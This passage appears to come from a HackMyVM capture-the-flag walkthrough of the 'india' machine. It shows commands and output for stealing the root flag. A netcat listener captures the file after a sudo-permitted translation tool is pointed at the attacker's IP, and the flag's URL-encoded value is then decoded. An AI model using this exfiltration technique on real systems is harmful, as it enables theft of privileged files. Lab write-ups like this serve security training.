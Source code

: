 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nc -lnvp 80 > ./http_root.txt`:
```
listening on [any] 80 ... ←
```

![Victim: india](https://img.shields.io/badge/Victim-india-64b5f6?logo=linux&logoColor=white)

`sudo /usr/local/bin/trans -i /root/root.txt -x 192.168.56.118:80`:
```
[ERROR] Null response.
[ERROR] Oops! Something went wrong and I can't translate it for you :(
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.138] 39469 ←
```

`cat ./http_root.txt`
```
GET http://translate.googleapis.com/translate_a/single?client=gtx&ie=UTF-8&oe=UTF-8&dt=bd&dt=ex&dt=ld&dt=md&dt=rw&dt=rm&dt=ss&dt=t&dt=at&dt=gt&dt=qca&sl=auto&tl=es&hl=es&q=%68%38%37%4D%35%33%36%34%56%32%33%34%33%75%62%76%67%66%79 HTTP/1.1 ←
Host: translate.googleapis.com
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
```

```
encoded_root='%68%38%37%4D%35%33%36%34%56%32%33%34%33%75%62%76%67%66%79'; \
decoded_root=$(printf "$(echo $encoded_root | sed 's/%/\\x/g')"); \
echo $decoded_root;
```
```
h87M5364V2343ubvgfy ←
```

</🔄 Alternative Step.>

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---

